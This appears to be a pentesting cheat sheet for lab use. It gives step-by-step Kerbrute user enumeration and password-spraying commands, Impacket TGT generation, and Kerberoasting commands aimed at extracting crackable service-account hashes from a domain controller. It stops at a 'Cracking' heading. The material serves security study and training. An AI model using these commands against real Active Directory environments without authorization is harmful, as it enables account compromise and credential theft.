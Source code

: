 # Cheat Sheet

## Kerbrute

### Enumerating Valid Users w/ Kerbrute

1. Place potentially valid users into a <mark style="color:yellow;">users.txt</mark> file

&#x20; 2\. Execute Userenum:

```
./kerbrute userenum -d htb.local --dc hostname_or_IP_of_DC users.txt
```

### Password Spray

1. Gather valid usernames
2. Execute userenum
3. Passwordspray:

```
./kerbrute passwordspray --dc hostname_or_IP_of_DC -d htb.local users.txt <password_here>
```

## Impacket

### Generate Kerberos TGT w/ <mark style="color:yellow;">Impacket-GetTGT</mark>

Generate TGT:

```
impacket-getTGT domain/user:password
```

* This will save the ticket as <mark style="color:yellow;">\<username>.ccache</mark>

Export KRB5CCNAME so that Impacket will use it:

```
export KRB5CCNAME=user.ccache
```

```
klist

Ticket cahce: FILE: <username.ccache>
Default principal: username@domain

Valid Starting        Expires            Service Principal
MM/DD/YYYY TIME       MM/DD/YYYY TIME    krbtgt/domain@domain
        renew until MM/DD/YYYY TIME
```

### Kerberoasting w/ Impacket-<mark style="color:yellow;">GetUserSPNs</mark>

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k

Password: Enter_password_here
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -no-pass
```

* Be sure to utilize the <mark style="color:yellow;">-request option if you want a hash</mark>
* Without it, you will only validate access to an SPN
* Which is helpful, but what we're really after is a hash

```
impacket-GetUserSPNs domain/user:password -dc-ip hostname_or_ip_of_dc -k -request
```

Getting an error?

* "<mark style="color:yellow;">The SMB request is not supported. Probably NTLM is disabled.</mark>"
* You may be able to fix this with the <mark style="color:yellow;">-dc-host</mark> option rather than -dc-ip

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k
```

no-pass option:

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass
```

Requesting hash:

* The <mark style="color:yellow;">-request option is required in order to obtain a hash</mark>

```
impacket-GetUserSPNs domain/user:password -dc-host hostname_or_ip_of_dc -k -no-pass -request
```

### Cracking&#x20;
